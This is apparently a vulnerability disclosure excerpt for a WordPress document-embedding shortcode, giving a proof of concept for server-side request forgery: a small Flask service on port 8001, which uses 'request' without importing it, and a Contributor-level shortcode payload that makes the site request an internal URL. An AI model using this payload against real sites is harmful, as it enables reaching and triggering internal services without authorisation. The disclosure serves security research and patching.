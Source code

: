 ## Exploit

### Local Server

Create a simple local service in Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Log in with a Contributor account

2. Create a post with the shortcode

```
[embeddoc url=http://localhost:8001/delete?id=1 download=all]
```

**Result**:

![Result](result.png "HEAD request to local service")
